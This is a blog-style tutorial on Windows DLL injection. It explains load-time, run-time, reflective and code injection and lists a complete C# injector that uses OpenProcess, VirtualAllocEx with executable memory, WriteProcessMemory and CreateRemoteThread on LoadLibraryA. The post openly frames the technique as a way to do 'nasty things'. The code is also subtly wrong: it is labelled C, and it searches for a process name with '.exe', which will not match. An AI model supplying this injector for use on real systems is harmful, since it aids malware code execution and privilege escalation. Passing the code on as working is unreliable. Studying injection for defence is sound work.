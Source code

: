 ```yaml
---
layout: single
title: "Payload Unleashed: DLL Injection"
date: 2024-02-28
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
---
```


Dynamic Link Library (DLL) injection is a technique used in the realm of software development and cybersecurity. It involves inserting a DLL into the address space of a running process, thereby altering its behavior or extending its functionality. While primarily used for legitimate purposes such as debugging and system monitoring, DLL injection can also be leveraged for malicious activities like code execution and privilege escalation. 

In this blog post, we'll delve into the workings of DLL injection, its various types, and which nasty things can we do with it.

# Understanding DLL Injection

At its core, DLL injection is about injecting external code into the memory space of a running process. This allows the injected code to execute within the context of the target process, granting it access to resources and functionalities it wouldn't normally have. The injection process typically involves the following steps:

1. **Selection of Target Process**: The first step is to identify the process into which the DLL will be injected. This could be any running application or system process.
    
2. **Loading the DLL**: The DLL to be injected is loaded into the memory space of the target process. This can be achieved through various means, including using APIs like LoadLibrary or manually mapping the DLL into memory. We will address this techniques later. 
    
3. **Injection**: Once the DLL is loaded into the target process, the next step is to execute its code within that process. This is often achieved by creating a remote thread within the target process and directing it to execute a specific function within the injected DLL.

# Types of DLL Injection

DLL injection techniques can be classified into several categories, each with its own advantages and use cases. Some common types include:

1. **Load-time Injection**: In load-time injection, the DLL is loaded into the target process's address space at the time of process creation. This can be achieved by specifying the DLL in the process's import table or by modifying the process's environment variables to include the DLL's path.
    
2. **Run-time Injection**: Run-time injection involves injecting the DLL into a running process. This can be done using APIs like CreateRemoteThread or by directly modifying the target process's memory space to load the DLL.
    
3. **Reflective Injection**: Reflective injection is a more advanced technique where the injected DLL is capable of loading and executing itself without relying on the traditional Windows DLL loading mechanisms. This makes it harder to detect and trace compared to other injection methods. 
    
4. **Code Injection**: In code injection, rather than injecting an entire DLL, small snippets of code are injected into the target process. This code is then executed within the context of the process, allowing for more granular control over its behavior.

# Hands-On: Implementing DLL Injection in C

In this hands-on section, we'll explore how to implement DLL injection using C# code. We'll focus on run-time injection, which involves injecting a DLL into a running process. For this demonstration, we'll create a simple console application to perform the injection.

Prerequisites:
- Basic understanding of C# programming language
- Visual Studio or any other C# IDE installed on your system

Steps:

1. Create a new C# console application project in Visual Studio.
2. Name the project "DLLInjectionDemo" and click "OK" to create the project.
3. Once the project is created, open the Program.cs file.
4. Replace the existing code with the following code:

```c
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace DLLInjectionDemo
{
    class Program
    {
        // Import necessary Win32 API functions
        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        static extern IntPtr GetModuleHandle(string lpModuleName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        static void Main(string[] args)
        {
            string targetProcessName = "targetProcess.exe"; // Change this to the name of the target process

            // Find the target process by name
            Process[] processes = Process.GetProcessesByName(targetProcessName);
            if (processes.Length == 0)
            {
                Console.WriteLine("Target process not found.");
                return;
            }

            Process targetProcess = processes[0];

            // Get the handle of the target process
            IntPtr processHandle = OpenProcess(0x1F0FFF, false, targetProcess.Id);
            if (processHandle == IntPtr.Zero)
            {
                Console.WriteLine("Failed to open target process.");
                return;
            }

            // Load the DLL into memory
            string dllPath = "C:\\path\\to\\your\\injected.dll"; // Change this to the path of your DLL
            IntPtr loadLibraryAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr allocMemAddr = VirtualAllocEx(processHandle, IntPtr.Zero, (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), 0x1000, 0x40);

            // Write the DLL path into the target process's memory
            UIntPtr bytesWritten;
            WriteProcessMemory(processHandle, allocMemAddr, System.Text.Encoding.Default.GetBytes(dllPath), (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), out bytesWritten);

            // Create a remote thread in the target process to load the DLL
            CreateRemoteThread(processHandle, IntPtr.Zero, 0, loadLibraryAddr, allocMemAddr, 0, IntPtr.Zero);

            Console.WriteLine("DLL injected successfully.");

            // Close the handle to the target process
            CloseHandle(processHandle);
        }

        // Import CloseHandle function
        [DllImport("kernel32.dll")]
        static extern bool CloseHandle(IntPtr hObject);
    }
}
```

Replace `"targetProcess.exe"` with the name of the target process you want to inject the DLL into, and `"C:\\path\\to\\your\\injected.dll"` with the path to the DLL you want to inject.

5. Build the project to ensure there are no compilation errors.
6. Run the console application. If the target process is found and the DLL injection is successful, you should see the message "DLL injected successfully."

Note: Make sure to test the DLL injection code responsibly and only on processes you have permission to interact with. Unauthorized DLL injection into system processes or third-party applications can lead to system instability or security vulnerabilities.

This hands-on example demonstrates the basics of DLL injection in C# using the Windows API functions. Further customization and error handling can be added based on specific requirements and scenarios.